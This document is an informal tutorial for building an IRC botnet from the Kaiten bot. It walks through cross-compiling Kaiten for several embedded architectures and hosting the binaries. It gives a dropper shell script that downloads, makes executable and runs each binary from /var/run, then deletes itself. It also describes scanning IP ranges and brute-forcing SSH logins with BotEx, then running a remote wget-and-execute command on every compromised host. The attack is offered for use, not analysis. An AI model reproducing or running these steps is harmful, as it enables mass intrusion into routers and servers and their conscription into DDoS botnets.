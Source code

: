 
unzip it and rename it to whatever you want, something short makes it easier but of course you can always leave it as it is

Next you want to cd into LA (im going to call the aidra folder LA for the sake of this tutorial) then type make sure to leave out the ' 

type ' mkdir bin ' then you want to cd into bin and type nano s.sh and copy this 

wget http://uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-mips.tar.bz2 && tar -xvjf cross-compiler-mips.tar.bz2 && rm -rf cross-compiler-mips.tar.bz2

wget http://uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-mipsel.tar.bz2 && tar -xvjf cross-compiler-mipsel.tar.bz2 && rm -rf cross-compiler-mipsel.tar.bz2

wget http://uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-armv5l.tar.bz2 && tar -xvjf cross-compiler-armv5l.tar.bz2 && rm -rf cross-compiler-armv5l.tar.bz2

wget http://uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-powerpc.tar.bz2 && tar -xvjf cross-compiler-powerpc.tar.bz2 && rm -rf cross-compiler-powerpc.tar.bz2

wget http://uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-sh4.tar.bz2 && tar -xvjf cross-compiler-sh4.tar.bz2 && rm -rf cross-compiler-sh4.tar.bz2

wget http://uclibc.org/downloads/binaries/0.9...32.tar.bz2 && tar -xvjf cross-compiler-x86_32.tar.bz2 && rm cross-compiler-x86_32.tar.bz2

Oka once you have pasted that you then want to save it and chmod it, and type ' sh s.sh ' then let it do its thing 

after that you need to configure your kaiten.c to your IRC, kaiten can be found here ftp://109.235.50.139/pub/kaiten.c

once you have it configured upload it to your FTP on your server and copy the link for it

Now your going to want to cd into /root/LA/bin after that your going to want to cd into every cross compiler and compile it, example 

[root@Psychopath bin]# cd cross-compiler-mipsel/bin 
[root@Psychopath bin]# wget ftp://FTPLINKforKaiten
[root@Psychopath bin]# ./mipsel-gcc -o mipsel kaiten.c
Now for powerpc it would look like

[root@Psychopath bin]# cd cross-compiler-powerpc/bin 
[root@Psychopath bin]# wget ftp://FTPLINKforKaiten
[root@Psychopath bin]# ./powerpc-gcc -o powerpc kaiten.c 

Get the picture?

Now when youve compilied it, its gonna give you a file thats the name of the cross compiler, so for example after i run ./mipsel-gcc -o mipsel kaiten.c it will give me a file called mipsel, that file is your compiled kaiten that we will be using in botex

What i reccomend doing is typing ' mkdir /root/Compiled ' and moving all the compiled bots into there, so heres what that would look like 

[root@Psychopath bin]# mkdir /root/Compiled
[root@Psychopath bin]# mv mipsel /root/Compiled

Get the picture?

now after that i need to install httpd, so type ' yum install httpd -y ' then type ' service httpd start ' if it says [ OK ] then you are good, it it says failed then says you need to edit your http config or some shit, use an OVH, i am not fully aware of how to fix it just yet.

now you want to cd into your Compiled folder and move everything to your /var/www/html/ So that would look like

[root@Psychopath Compiled]# mv mips mipsel sh4 powerpc x86_64 armv5l /var/www/html/

Get the picture? 

So now you want to type ' cd /var/www/html/ ' and then type ' nano gb.sh ' and then edit and copy this 

#!/bin/sh

wget -c http://yourHTTPlink/armv5l -P /var/run && chmod +x /var/run/armv5l && /var/run/armv5l
wget -c http://yourHTTPlink/mips -P /var/run && chmod +x /var/run/mips && /var/run/mips
wget -c http://yourHTTPlink/mipsel -P /var/run && chmod +x /var/run/mipsel && /var/run/mipsel
wget -c http://yourHTTPlink/powerpc -P /var/run && chmod +x /var/run/powerpc && /var/run/powerpc
wget -c http://yourHTTPlink/sh4 -P /var/run && chmod +x /var/run/sh4 && /var/run/sh4
wget -c http://yourHTTPlink/x86_64 -P /var/run && chmod +x /var/run/x86_64 && /var/run/x86_64

sleep 3;
rm -fr /var/run/gb.sh

After that you want to save it and chmod 777 * 

now that we have done that we can move along to installing every thing for botex

Heres is everything needed to install BotEx

cpan force install IO::Socket

cpan force install IO::Select 

cpan force install Parallel::ForkManager

cpan force install Net::SSH2

if it says " No makefile was created " or some shit after you tried to install net:ssh2 

do all of these commands in order one after another

yum install gcc php-devel php-pear libssh2 libssh2-devel

pecl install -f ssh2

touch /etc/php.d/ssh2.ini

echo extension=ssh2.so > /etc/php.d/ssh2.ini

after that run cpan force install Net::SSH2 again and it should work

now your going to want to put your LRAB folder onto your server and put wget.pl in it

now in yout wget.pl file your going to look for line 26 and it should look like this 

channel->exec('cd /tmp && wget http://yourHTTPlink/gb.sh && sh gb.sh && rm -rf gb.sh');

once you have changed it your done with the setup, now we need to make lists 

To do so type

./class PORT -a RANGE -i INTERFACE -s 10

once thats done scanning your range you want to type

./go then it will ask your for ' Max Process ' you can enter any number 1 up to 1000 i rekon 500 or 1000 depending on server speed, let it brute force for a while 

after its done brute forcing you want to nano into wget.pl and look on line 11 it should look like 

open(fh,'<','vulnlistname.txt'); @newarray; while (<fh>){ @array = split(':',$_);

just edit it to your vuln list name and save it and then type perl wget.pl and your done!!